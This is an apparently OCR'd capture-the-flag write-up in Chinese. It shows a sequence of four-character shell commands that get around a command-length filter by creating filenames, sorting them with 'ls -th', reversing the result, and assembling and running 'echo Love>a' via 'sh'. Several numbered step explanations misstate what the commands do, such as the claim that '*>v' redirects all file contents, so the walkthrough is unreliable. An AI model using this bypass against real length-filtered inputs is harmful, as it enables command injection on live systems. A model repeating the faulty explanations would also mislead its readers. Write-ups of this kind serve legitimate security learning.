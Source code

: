 >dir
>g\>
>ht-
>sl
*>v
>rev
*v>x

>\>a
>ve\
>Lo\
>\ \
>ho\
>ec\

sh x
sh g

-----替换不同样式的Love会有不同效果哦-----

>\>a
>VE\
>Lo\
>\ \
>ho\
>ec\

>\>a
>VE\
>LO\
>\ \
>ho\
>ec\

>\>a
>ve\
>lo\
>\ \
>ho\
>ec\

## 解题步骤解析

根据提示我们最多只能输入4个字符的命令，但需要在沙盒环境中创建一个内容为"Love"的文件。

通过限制绕过构造的命令序列：

1. `>dir` - 创建文件 "dir"
2. `>g\>` - 创建文件 "g>"
3. `>ht-` - 创建文件 "ht-"
4. `>sl` - 创建文件 "sl"
5. `*>v` - 通配符匹配，将所有文件内容重定向到 "v"
6. `>rev` - 创建文件 "rev"
7. `*v>x` - 通配符匹配，将包含v的文件内容重定向到 "x"

8. `>\>a` - 创建文件 ">a"
9. `>ve\` - 创建文件 "ve\"
10. `>Lo\` - 创建文件 "Lo\"
11. `>\ \` - 创建文件 "\ \"
12. `>ho\` - 创建文件 "ho\"
13. `>ec\` - 创建文件 "ec\"

14. `sh x` - 执行文件 "x" 中的内容
15. `sh g` - 执行文件 "g" 中的内容

最后命令会在沙盒中创建一个内容为"Love"的文件，系统检测到后会返回flag。

--------------------

替换不同样式的Love会触发不同的响应。
- `love` - 小写格式，获得超小Flag, 小到你看不到
- `Love` - 标准格式，获得经过多层base64加密的flag
- `LOVE` - 全大写格式，获得原始flag
- 混合大小写 - 获得乱序后的flag
